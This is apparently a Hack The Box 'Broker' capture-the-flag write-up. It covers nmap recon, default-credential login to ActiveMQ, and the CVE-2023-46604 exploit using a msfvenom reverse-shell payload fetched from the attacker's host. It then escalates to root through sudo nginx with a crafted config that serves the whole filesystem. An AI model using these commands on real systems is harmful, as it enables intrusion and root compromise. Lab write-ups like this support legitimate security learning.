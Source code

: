 # Broker - HTB

Date : 21 Dec 2023 Thursday

## Recon

### Nmap 

```
nmap --min-rate 1000 -p- -Pn 10.129.230.87 -oN nmap_tcp.txt
```

Output : 

![Screenshot from 2023-12-21 14-23-15](https://github.com/kris3c/kris3c.github.io/assets/128035061/75531d30-1c01-4798-8f6c-b0cffe8950b7)



So we can see different ports are open on the machine lets start with port 80.

![Screenshot 2023-12-21 at 14-25-41 Apache ActiveMQ](https://github.com/kris3c/kris3c.github.io/assets/128035061/8369e271-641a-44ca-a626-a16848659c28)

so we can see here ActiveMQ is running lets check the version 

Visiting /admin endpoint 

Trying with default credentials 

```
Username: Admin
Password : Admin
```

It worked

![Screenshot 2023-12-21 at 14-29-10 localhost ActiveMQ Console](https://github.com/kris3c/kris3c.github.io/assets/128035061/99b34b74-bdd4-4871-b0e6-6c69a870c53b)

we can see the version of the activemq that is **5.15.15**

# Shell as activemq 

Upon Searching for exploit related to this version i came across this repo: 

[CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ](https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ)

By following the instruction we can easily get the shell :

```
git clone https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ.git
```

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf
```

```
python3 -m http.server
```

Edit the file poc-linux.xml and adress for the poc-linux.xml 

```
go run main.go -i {Target_IP} -u http://{IP_Of_Hosted_XML_File}:$RPORT/poc-linux.xml
```


# Privilege escalation

```
sudo -l 
```

![Screenshot from 2023-12-21 14-37-13](https://github.com/kris3c/kris3c.github.io/assets/128035061/aca8b287-5bc0-4e5a-a830-d9521dea4395)

we can execute the nginx with root privileges so let's start a web server which give is root access to the server on which it is running

```
cat /etc/nginx/nginx.conf | grep -v "/#" 
```

```
cat /etc/nginx/sites-enabled/default 
```

make a file on your system 

```
nano nginx.conf
```

```
user root;
worker_processes auto;
pid /run/nginx2.pid;
include /etc/nginx/modules-enabled/*.conf;
events {
	worker_connections 768;
}

http {
	server {
    		listen 1337;
    		location / {
    			root /;
    		}
        
      }
}

```

start python server 

```
python -m http.server
```

Download it on the machine in the /dev/shm directory

```
wget http://$RHOST:8000/nginx.conf
```

start the server

```
sudo nginx -c /dev/shm/nginx.conf
```

download the flag :

```
 curl http://localhost:1337/root/root.txt
```
